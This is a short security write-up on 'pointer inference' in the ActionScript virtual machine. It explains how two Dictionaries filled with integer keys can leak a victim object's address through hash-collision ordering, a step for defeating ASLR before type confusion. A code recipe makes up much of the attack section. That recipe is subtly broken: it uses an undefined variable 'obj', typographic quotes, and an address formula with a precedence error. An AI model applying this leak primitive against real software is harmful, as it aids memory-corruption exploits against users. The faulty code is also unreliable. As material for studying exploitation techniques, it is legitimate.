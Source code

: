 ### Attack Summary

***Pointer inference:*** Recovering the memory address of an internal object via "normal" (non-exploit) interactions with target software. It is used to then use type casting and confusion.

### Attacker Threat Model

The attacker has access to the VM of a dynamically typed language ((ECMA|Java|Action)Script, Java, Python, etc.) can write a script and execute it. DEP and ASLR memory protection are in action.

### Background

ActionScript interpreter represents internal objects using ***tagged pointers (atoms)***. The tag can be read to determine if it is stored by value or reference (string or object). The ActionScript dictionary exposes an associative map data structure to associate any ActionScript object with another. It is implemented as a hashtable that derives the hash from the key atom and stores the key and value atom together in the table.

### Recipe

```javascript
// First, create the Dictionaries
var even = new Dictionary();
var odd = new Dictionary();
// Now, fill the Dictionary objects with the integer atoms
var index;
for (index = 0; index < 8; index += 1) {
    even[index * 2] = true;
    odd[index * 2 + 1] = true;
}
// The victim object is added to both dictionaries
var victim = “AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA”;
even[victim] = true;
odd[victim] = true;
// The two integers before the victim
var curr, evenPrev, oddPrev;
for (curr in even) {
    if (curr == victim) { break; }
    evenPrev = curr;
}
for (curr in odd) {
    if (curr == obj) { break; }
    oddPrev = curr;
}
```

The two integers should differ by 17 due to linear probe on collision. In this case, the smaller value is from the dictionary that does not have the collision. If it is anything else, the probe wrapped and the larger value is from the dictionary that did not have the collision. Once the integer is found, it can be turned into an atom that is 8 smaller than the victim atom. So (x << 3 + 8) or ((x+1) << 3).

Data structure leaks can also involve: *internal ids (Python), hash functions (.NET or Java).*

